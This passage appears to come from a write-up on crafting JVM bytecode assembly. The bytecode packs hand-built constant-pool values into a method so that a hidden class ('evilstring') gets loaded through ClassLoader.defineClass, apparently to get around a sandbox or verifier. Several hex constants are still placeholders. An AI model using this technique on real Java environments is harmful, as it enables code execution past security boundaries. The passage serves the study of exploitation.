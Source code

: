 ```
.method public woodlelyDoodlely : ()I
    .code stack 2000 locals 10
        ldc_w "(Ljava/lang/String;[BLjava/security/ProtectionDomain;)Ljava/lang/Class;"
        ldc_w "Code"

        ldc_w "evilstring"

        ldc2_w 0x------0001------L
        ldc2_w 0x0000000000020001L
        ldc_w  0x--000700
        ldc2_w 0x00090000001C0042L
        ldc2_w 0x00000000102A2B2CL
        ldc2_w 0x57032CBE2DB6----L
        ldc2_w 0x57B0000000000000L
        ldc2_w 0x00000003AAAAAA00L
        ldc2_w 0x00000003BBBBBB00L
        ldc2_w 0x00000003CCCCCC00L
        ldc2_w 0x00000006DDDDDDDDL
        ldc2_w 0x000001--------00L
        ldc2_w 0x00090000001C0043L
        ldc2_w 0x00000000102A0000L
        ldc2_w 0x57B7----B1000000L
        ldc2_w 0x5700000000000000L
        ldc2_w 0x0000000366666600L
        ldc2_w 0x0000000377777700L
        ldc2_w 0x0000000388888800L
        ldc2_w 0x00000E2599999999L

        iconst_0
        ireturn
    .end code
.end method
```

Next up, we have to fill in those placeholders and construct the _real_ value for evilstring. Additionally, we have to satisfy the following constraints while doing so:


```
[super_cls] = **05
[sneakyLoad_utf] = 03**
```

### More constants

Now we can add in some more strings that we need, to help fill the placeholders:

```
        ldc_w "(Ljava/lang/String;[BLjava/security/ProtectionDomain;)Ljava/lang/Class;"
        ldc_w "Code"
        
        ldc_w "defineClass"
        ldc_w "(Ljava/lang/String;[BIILjava/security/ProtectionDomain;)Ljava/lang/Class;"
        ldc_w "<init>"
        ldc_w "()V"
        ldc_w "java/lang/ClassLoader"

        ldc_w "evilstring"
```
